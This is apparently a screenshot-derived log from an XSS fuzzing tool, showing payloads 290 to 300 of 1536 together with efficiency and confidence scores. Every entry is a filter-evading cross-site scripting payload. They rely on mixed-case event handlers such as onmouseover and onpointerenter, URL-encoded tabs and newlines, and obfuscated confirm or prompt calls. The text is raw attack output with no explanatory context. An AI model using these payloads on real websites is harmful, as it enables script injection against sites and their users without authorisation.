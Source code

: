 ------------------------------------------------------------
 Payload: <a/+/ONMOuSEoVER%09=%09[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 290/1536
 
------------------------------------------------------------
 Payload: <d3v%0aONmouSeOVeR%09=%09(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 291/1536
 
------------------------------------------------------------
 Payload: <d3V/+/ONpOInterENteR%0a=%0aconfirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 292/1536
 
------------------------------------------------------------
 Payload: <html%0aOnpOiNtERENter%0d=%0da=prompt,a()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 293/1536
 
------------------------------------------------------------
 Payload: <HTMl%0dONPOinTeREnteR+=+[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 294/1536
 
------------------------------------------------------------
 Payload: <hTML/+/ONpOInTErEnTer%0a=%0aa=prompt,a()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 295/1536
 
 Progress: 296/1536
 
 Progress: 297/1536
 
------------------------------------------------------------
 Payload: <DeTAILS%09oNpOInTErENtER%09=%09a=prompt,a()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 298/1536
 
------------------------------------------------------------
 Payload: <D3V%0aonMoUseoVer+=+(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 299/1536
 
------------------------------------------------------------
 Payload: <hTml%09ONpOINtERENTer%0a=%0aconfirm()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 300/1536
 